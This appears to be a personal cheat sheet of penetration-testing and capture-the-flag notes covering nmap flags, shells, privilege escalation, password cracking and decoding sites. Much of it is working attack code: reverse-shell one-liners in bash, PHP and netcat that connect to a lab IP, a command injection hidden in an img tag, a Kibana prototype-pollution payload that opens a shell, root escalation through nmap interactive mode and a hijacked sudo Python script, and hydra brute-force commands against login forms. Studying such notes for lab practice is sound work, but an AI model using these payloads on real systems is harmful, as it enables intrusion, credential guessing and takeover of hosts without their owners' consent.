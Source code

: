 


*
-sC flag in nmap runs a set of default NSE scripts, some of them are intrusive so this should not be run against real machines.


*
-A flag means agressive. It consists of 
-A: Enable OS detection, version detection, script scanning, and traceroute


*
nmap run without sudo does TCP scan (-sT) and with sudo SYN scan (-sS). SYYN scan is better as it is a stealth one - sends RST flag to server so it avoids getting detected by firewall (for example). On the other side, it can destabilize weak applications on a server .


*
To check if there is a nse script for X service:

`grep "X" /usr/share/nmap/scripts/script.db`


*
Getting rev shell when there is a chance to write a comment

`<img src=http://10.6.46.150/$(nc.traditional$IFS-e$IFS/bin/bash$IFS'10.6.46.150 '$IFS'4444')>`

 
*
SPAWNING INTTERACTING SHELL WITH PYTHON

`python3 -c 'import pty;pty.spawn("/bin/bash")'`   


*
Listing all binaries with suid permission

`find / -perm -u=s -type f 2>/dev/null`


*
link to access a modified WP theme - `404.php` (to get rev shell)

`http://10.10.142.159/wp-content/themes/twentyfifteen/404.php`


*
if there is a filtering, it is needed to add command in backslashes e.g `l\s -la`


*
PHP REV SHELL ONE LINER

`php -r '$sock=fsockopen("10.6.46.150",4444);exec("/bin/sh -i <&3 >&3 2>&3");'`


*
BASH REV SHELL ONELINER

`bash -i &>/dev/tcp/10.6.46.150/4444 <&1`


*
There are many different converters to john format

`bin2john / zip2john / gpg2john`


*
7z is a file to extract


*
binwalk -->> tool to check of there is a zip file inside .png image

`binwalk -e file`


*
NMAP SHELL

Old version of nmap can be used to escalate to root

`nmap --version` to check version

`nmap --interactive` to enter interacttive mode

and then `!sh` to get root


*
BRAINFUCK decoder

`https://www.splitbrain.org/_static/ook/`

++++++++++[>+>+++>+++++++>++++++++++<<<<-]>>>++++++++++++++.------------.+++++.>+++++++++++++++++++++++.<<++++++++++++++++++.>>-------------------.---------.++++++++++++++.++++++++++++.<++++++++++++++++++.+++++++++.<+++.+.>----.>++++.


*
XOR DECODER

`http://xor.pw/#`


*
SPEECH TO TEXT CONVERTER

`https://speech-to-text-demo.ng.bluemix.net/`


*
PHP 5 is vulnerable to "null byte injection" 

TL;DR adding '\00' in the end of command.

https://www.cvedetails.com/cve/CVE-2006-7243/


*
Becoming root with python script and with no read/write rights:

`mv script.py script.py.bak` ---> renaming original script

`echo "import pty" > script.py` ---> adding pty library = pseudo terminal utilities

`echo "pty.spawn('/bin/bash')" >> script.py` ---> adding a spawn function

and executing a script with path given in `sudo -l` e.g `sudo -u root /usr/bin/python /home/script.py`


*
`wget -r` downloads all files of a directory


*
Kibana runs usually on port `5601`

It is always good to check it's version (Management section) and if it is vulnerable to `protype pollution`.

TL;DR We run netcat and inject a payload in Timelion, run it and open Canvas to get shell in netcat's terminal.

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/10.6.46.150/4444 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
```

*
FINDING CAPABILITIES

`getcap -r / 2>/dev/null` 

`2>/dev/null` -
--> discards all STDERR


*
Nessus is an automated scanner which runs on port `8834`. It mixes functions of nmap, nikto or zap together and provides many profiles calles `Policies`


*
Finding password for admin based on request and error message:

`hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.63.60 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid" -V`

Finding password knowing username:

`hydra -l $USER -P /usr/share/wordlists/rockyou.txt 10.10.147.74 $SERVICE`

$SERVICE --> ssh, ftp...


*
Sometimes in order to access a hidden website, it is needed to turn off javascript in a browser.

In Firefox:

`about:config` --> `javascript enabled` --> change to `false`


*
Looking for 'word' inside a file:

`egrep 'word' file.txt` 

Shows how many times 'word' appears in a file:

`egrep -n 'word' file txt `

Looks for for a 'word' and shows in which line it is:

`grep -Hrn 'word' /path`


*
It is possible to bruteforce jwt tokens with `jwt-tool`
